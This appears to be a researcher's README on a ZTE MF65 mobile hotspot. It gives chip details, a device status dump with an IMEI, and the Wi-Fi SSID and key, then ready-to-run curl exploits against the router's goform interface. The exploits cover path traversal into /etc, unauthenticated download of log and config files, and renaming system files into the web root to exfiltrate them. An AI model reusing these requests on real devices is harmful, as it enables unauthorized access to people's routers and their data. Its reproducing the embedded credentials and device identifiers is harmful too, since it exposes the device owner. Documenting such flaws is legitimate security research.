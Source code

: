 
SSID: TPPWF_4D2A7C
KEY : 87347788DD

**sk hynix H9DA1GG51JBM**
- 1GB RAM / MMC ?

**qualcomm mdm8200a**
- Modem Chipset ?
- Single-mode modem
- Only supports HSPA+ with data rates of up to 28 Mbit/s
- GPS functionality, including support for Assisted GPS

**qualcomm rtr6285**

- SINGLE-CHIP MULTI-BAND UMTS/EGPRS TRANSCEIVER WITHIN TEGRATED RECEIVE DIVERSITY AND GPS

## Products

- ZTE MF65 3G HSPA+ 21Mbps Mobile Hotspot

```
SIM Card Number — —
IMEI 867307019770164
IMSI — —
Signal Strength — —
Network Name (SSID) TPPWF_4D2A7C Change
Max Access Number 5
LAN Domain m.home
IP Address 192.168.0.1
WAN IP Address — —
Software Version MF65_T02
Firmware Version MF65_T02
Hardware Version MF65-1.0.0
```

USB
```
[10090.548237] usb 1-6: new high-speed USB device number 6 using xhci_hcd
[10090.709964] usb 1-6: New USB device found, idVendor=19d2, idProduct=0016, bcdDevice=f0.ae
[10090.709981] usb 1-6: New USB device strings: Mfr=3, Product=2, SerialNumber=0
[10090.709989] usb 1-6: Product: ZTE WCDMA Technologies MSM
[10090.709995] usb 1-6: Manufacturer: ZTE,Incorporated
[10090.765082] usbcore: registered new interface driver usbserial_generic
[10090.765099] usbserial: USB Serial support registered for generic
[10090.771574] usbcore: registered new interface driver option
[10090.771593] usbserial: USB Serial support registered for GSM modem (1-port)
[10090.771698] option 1-6:1.0: GSM modem (1-port) converter detected
[10090.771834] usb 1-6: GSM modem (1-port) converter now attached to ttyUSB0
[10090.771891] option 1-6:1.1: GSM modem (1-port) converter detected
[10090.771958] usb 1-6: GSM modem (1-port) converter now attached to ttyUSB1
[10090.772005] option 1-6:1.2: GSM modem (1-port) converter detected
[10090.772065] usb 1-6: GSM modem (1-port) converter now attached to ttyUSB2
[10102.322077] usb 1-6: USB disconnect, device number 6
[10102.322722] option1 ttyUSB0: GSM modem (1-port) converter now disconnected from ttyUSB0
[10102.322796] option 1-6:1.0: device disconnected
[10102.323266] option1 ttyUSB1: GSM modem (1-port) converter now disconnected from ttyUSB1
[10102.323337] option 1-6:1.1: device disconnected
[10102.323730] option1 ttyUSB2: GSM modem (1-port) converter now disconnected from ttyUSB2
[10102.323798] option 1-6:1.2: device disconnected
```


## PAth Traversal

```
curl --location 'http://192.168.0.1/goform/goform_set_cmd_process' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'isTest=false' \
--data-urlencode 'goformId=HTTPSHARE_ENTERFOLD' \
--data-urlencode 'path_SD_CARD=/etc' \
--data-urlencode 'indexPage=1'
```

## How to connect WIFI?
``` js
defined.service.connectHotspot({EX_SSID1: 'home',EX_AuthMode: "WPAPSKWPA2PSK", EX_EncrypType: "CCMP",EX_WPAPSK1:"oranganggo",
                               EX_wifi_profile:"Profile2"})
```



## WEB FILE LEAKS

http://192.168.0.1/goahead.log
http://192.168.0.1/pppoelog.log

curl -i http://192.168.0.1/zte_log/temp

curl -i 'http://192.168.0.1/copy/etc/dnsmasq.conf'

curl -i 'http://192.168.0.1/copy/etc/udhcpd.conf'


## Rename and download
Note: cannot download .txt file, rename to other ext then download
curl --location 'http://192.168.0.1/goform/goform_set_cmd_process' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'isTest=false' \
--data-urlencode 'goformId=HTTPSHARE_FILE_RENAME' \
--data-urlencode 'path_SD_CARD=/' \
--data-urlencode 'OLD_NAME_SD_CARD=/etc/dnsmasq.conf' \
--data-urlencode 'NEW_NAME_SD_CARD=/web/dnsmasq.conf'

curl -i 'http://192.168.0.1/copy/etc/udhcpd.conf'